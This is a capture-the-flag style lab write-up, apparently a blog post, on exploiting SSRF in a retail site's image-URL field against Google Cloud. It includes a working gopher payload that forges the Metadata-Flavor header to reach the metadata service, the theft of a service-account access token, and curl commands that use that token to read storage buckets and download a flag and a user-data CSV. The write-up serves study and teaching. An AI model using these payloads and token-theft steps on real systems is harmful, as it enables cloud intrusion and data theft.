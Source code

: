 ```yaml
---
layout: post
title:  "Exploit SSRF with Gopher for GCP Initial Access"
date:   2024-05-26 21:39:54 +0530
---
```


## Scenario 

The scenario of the lab is that You have recently joined a red team and are on an engagement for the client Gigantic Retail. In scope is their on-premise and cloud environments. As the cloud specialist, you are called upon to get initial access to their infrastructure, starting with an identified IP address.

 
## Initial Entry point  

| | |
| --- | --- |
| **Type** | **Value** |
| IP Address | 35.226.245.121<br> |


## Solution

 

With the IP Address, I’ve tried to access it directly and found that port 80 is open and hosts a kind of retail website 

 

![]({{ site.baseurl }}/assets/images/ssrf.png) 

 

Exploring further, we also found a shop inside the website where we can buy, checkout and purchase 

 

![]({{ site.baseurl }}/assets/images/ssrf-1.png) 

 

But there is an interesting functionality where you can specify your profile from a remote URL which is an interesting place to start looking out for SSRF

 

![]({{ site.baseurl }}/assets/images/ssrf2.png)  

 

Intercepting the request and looking into the source of the website 

 

![]({{ site.baseurl }}/assets/images/ssrf3.png) 

 

In the above, as you can see when we pass the image URL to fetch the image.. it calls through `url` parameter and then looks into the source, where you can see inside `<script>` we have `document.addEventListener('DOMContentLoaded', function() {...})` where it will wait until HTML content to be loaded and once it loaded it tells the `profile-photo` element where it sets it to `url` which we passed

 

But when u pass some reachable URL we may receive a pingback and even though it says “Not an Image”

 

In the Image URL replayed the value with the following URL [http://metadata.google.internal](http://metadata.google.internal "http://metadata.google.internal") which is the metadata for Google cloud just like in AWS which is `169.254.169.254` and URL processed and discloses `computeMetadata` in the response

 

![]({{ site.baseurl }}/assets/images/ssrf4.png) 

 

But results in 403 when we tried to hit the [http://metadata.google.internal/computeMetadata/v1/](http://metadata.google.internal/computeMetadata/v1/) because we have to pass the header value which is `Metadata-Flavor: Google`⁠

 

 

![]({{ site.baseurl }}/assets/images/ssrf5.png) 

 

 

But even after passing the header `Metadata-Flavor: Google` we are still receiving the 403

 

![]({{ site.baseurl }}/assets/images/ssrf6.png)  

 

Looking into the following blog [here](https://blog.codydmartin.com/gcp-cloud-function-abuse/ "https://blog.codydmartin.com/gcp-cloud-function-abuse/") from Cody about abusing Google Cloud functions through gopher and got an idea of constructing the gopher payload but we need how the internal request looks like 

 

```sh
GET /computeMetadata/v1 HTTP/1.1
Host: metadata.google.internal
Accept: */*
Metadata-Flavor: Google
```

 

Converting this HTTP request into the gopher

 

```bash
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

 

When passing the payload through the `url` parameter we didn’t 403 instead our request was successfully parsed disclosing the execution and further paths inside cloud metadata 

 

![]({{ site.baseurl }}/assets/images/ssrf7.png) 

 

Accessing `/instance` further reveals internal paths and we have to access `service-accounts` 

 

![]({{ site.baseurl }}/assets/images/ssrf8.png) 

 

Accessing that `service-accounts` reveals that other than `default` we have other one service account which is [bucketviewer@gr-proj-1.iam.gserviceaccount.com](mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com "mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com") 

 

 

![]({{ site.baseurl }}/assets/images/ssrf9.png) 

 

> Service accounts in Google Cloud Platform (GCP) are special types of accounts used to grant specific permissions to applications, virtual machines, and other services within GCP, enabling them to interact with other Google Cloud services

 

Adding to that `/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token` will reveal the token of the specific account just like iam credentials in AWS via metadata 

 

![]({{ site.baseurl }}/assets/images/ssrf11.png) 

 

Checked the token using the curl command and found that the token is valid and online 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=ya29.c.c0AY_VpZgBbzy_M8iNeYS9J1McBJnQAPLsAUQ27C6g07VyUz3FPe_sIi5GJtPDpMHZcnSF8jVjuNyIpfpMvJ6b619ENrMbUXosdRvOqzpDqTAg2HmVJw14RvAmynCsx3MzQcsWq_hpKCVjlXZo7ymOop1CuHMbi7II2Gd7HxigAaHbqDCu5nlAJxYARFfri3g9avb3N4B4UFfiBMCbhQp6U1YG5-lOI-H0RsYxBSySHv5TelWXDQRC3giFz7H6yg50mV3A7Rw5f108qY89BL3je6vGoPxmBX63a-OO6Sj3UxmwidYZms9oVtjIXJOl_V95ktagGehAvNamq0ICOLmLrvWLLAqLbIcyD7OgurWcxrM3IWTIUgMrC8C7vXhzMJB2T393Kde48XIUag5loxhk3o1s8kMv8b5ZnV8j4fsYZF11RR7eixWetn4iJMYxQg0g3Z7ucBu7u_p2w49M0f07435yqpRet6y_raxBwZik_b_lpod3ZV1e7byo7XzmqYFYWcjUnort8Xp2sSI7_gnj_YVzdsQRYXQ663MylV3XYOdZ-mck6911SdSpvrwSoV9sY2I0fXWyaIYIZn6bjt2x4zn7kcYXBxaiBz6dJRuwik0f2yg1mWbXhc4da04xqY3Q-3hSX1eolcisuvFsyIZ-5ww80r0_IvR3oWdnhMkvslxoo1kwm61cRYcj1r0hOR91Iu8BnebUz8F9t1kRs6WxJxm0idI1B8J9kOmhF0y2Zs-B01993vatMBofkhcu7pp0r6dieb3VBXY3yS6bmSh4Syrjlp87xJ5o6dQ-iVJsUpb8B7S4ucnRdzyJWpbvhgxW9i1F15vwof6wIy5Srtqpcdr6agphwbRdQWeZuBQ1mp7xrtuV0jxtRu5daxBwZX9Z7QdfV5-Iq5fQB1kOo9dYFQSQ5yY818xtvySeRqunt2VXRlm2bwMs3-w9_WcO_RcSwXn01fleM7u2IS3pq-onh9Y3tM9XSFah6SeY48bOfo3fUyYSqk7rIm1" https://www.googleapis.com/oauth2/v1/tokeninfo

{
 "issued_to": "113150342444479982060",
 "audience": "113150342444479982060",
 "scope": "https://www.googleapis.com/auth/cloud-platform",
 "expires_in": 2507,
 "access_type": "online"
}
```

 

Further, we know that the images for the shop website are being hosted here 

 

![]({{ site.baseurl }}/assets/images/ssrf10.png) 

 

 

From Google docs [here](https://cloud.google.com/storage/docs/authentication#apiauth "https://cloud.google.com/storage/docs/authentication#apiauth"), we gotta know about an API call to access Google storage buckets 

 

```sh
curl -H "Authorization: Bearer $GOOGLE_TOKEN" "https://storage.googleapis.com/storage/v1/b/gigantic-retail/o"
```

 

Got to know the information about the objects and received a huge chunk of data but these two look interesting interesting 

 

```json
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/flag.txt/1703771329072518",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media",
 "name": "userdata/flag.txt",
 "bucket": "gigantic-retail",
 "generation": "1703771329072518",
 "metageneration": "1",
 "contentType": "text/plain",
 "storageClass": "STANDARD",
 "size": "33",
 "md5Hash": "J+PDkjepBufLwKoiCflv2w==",
 "crc32c": "/H+7+Q==",
 "etag": "CIab5OaisoMDEAE=",
 "timeCreated": "2023-12-28T13:48:49.125Z",
 "updated": "2023-12-28T13:48:49.125Z",
 "timeStorageClassUpdated": "2023-12-28T13:48:49.125Z"
 },
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/user_data.csv/1703877006716190",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media",
 "name": "userdata/user_data.csv",
 "bucket": "gigantic-retail",
 "generation": "1703877006716190",
 "metageneration": "1",
 "contentType": "text/csv",
 "storageClass": "STANDARD",
 "size": "2388",
 "md5Hash": "JMvLqhSoe2s9FX6JlXGmxw==",
 "crc32c": "2XJ9cA==",
 "etag": "CJ7a572stYMDEAE=",
 "timeCreated": "2023-12-29T19:10:06.754Z",
 "updated": "2023-12-29T19:10:06.754Z",
 "timeStorageClassUpdated": "2023-12-29T19:10:06.754Z"
 }
```

 

Accessing `mediaLink` with the same curl command with little correction will reveal the flag 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media"

9cee2dec5c28e047022f8ba9e0d7ca62
```

 

You can ask what is the other interesting file which is user data disclosure where it highlights during ur pentest 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"


Name,Address,PhoneNumber,Email,Job Title,Company
John Doe,123 Main St, Seattle, WA 98101,555-1234,john.doe@novasoft.com,Software Engineer,Nova Software Solutions
Jane Smith,456 Oak Ave, Boston, MA 02110,555-5678,jane.smith@bluebaytech.com,Project Manager,Blue Bay Technologies
Bob Johnson,789 Pine Rd, Austin, TX 78701,555-9012,bob.johnson@creativedge.com,Graphic Designer,Creative Edge Design
Alice Williams,101 Cedar Lane, Denver, CO 80202,555-3456,alice.williams@peakhr.com,HR Specialist,Peak Human Resources
Charlie Brown,202 Maple Blvd, Chicago, IL 60601,555-7890,charlie.brown@marketgenius.com,Marketing Director,Market Genius Inc.
Emily Davis,303 Elm Street, San Francisco, CA 94102,555-2345,emily.davis@zenithfinance.com,Financial Analyst,Zenith Finance
Michael Miller,404 Birch Lane, New York, NY 10001,555-6789,michael.miller@techfrontier.com,IT Consultant,Tech Frontier
Olivia Wilson,505 Pinecrest Rd, Miami, FL 33101,555-0123,olivia.wilson@sunrealty.com,Real Estate Agent,Sunshine Realty
David Taylor,606 Oakwood Ave, Philadelphia, PA 19106,555-4567,david.taylor@arcopartners.com,Architect,Arco Partners
Sophia Anderson,707 Maple Court, Las Vegas, NV 89101,555-8901,sophia.anderson@nextstepsales.com,Sales Manager,Next Step Sales
Daniel Harris,808 Cedar Rd, Atlanta, GA 30301,555-2341,daniel.harris@webworlddev.com,Web Developer,Web World Development
Grace Thomas,909 Birch Blvd, Minneapolis, MN 55401,555-6785,grace.thomas@biogenresearch.com,Clinical Researcher,Biogen Research Labs
Isaac Martinez,1010 Oak Lane, Portland, OR 97201,555-0129,isaac.martinez@eduworld.com,Teacher,EduWorld Schools
Ella Rodriguez,1111 Pine Ave, Dallas, TX 75201,555-4563,ella.rodriguez@mediavista.com,Journalist,Media Vista
James Smith,1212 Cedar Street, Orlando, FL 32801,555-8907,james.smith@legalpros.com,Attorney,Legal Pros LLP
Ava Johnson,1313 Elm Rd, Phoenix, AZ 85001,555-2349,ava.johnson@idinteriors.com,Interior Designer,Innovative Designs
Liam Davis,1414 Maple Lane, Raleigh, NC 27601,555-6783,liam.davis@gourmetchef.com,Chef,Gourmet Chef Culinary
Mia Wilson,1515 Pine Blvd, Cleveland, OH 44101,555-0127,mia.wilson@sigmapharma.com,Pharmacist,Sigma Pharmacy
Noah Taylor,1616 Birch Ave, Nashville, TN 37201,555-4561,noah.taylor@truetecheng.com,Engineer,TrueTech Engineering
Sophie Brown,1717 Oakwood Rd, Kansas City, MO 64101,555-8905,sophie.brown@fitnation.com,Fitness Trainer,FitNation
```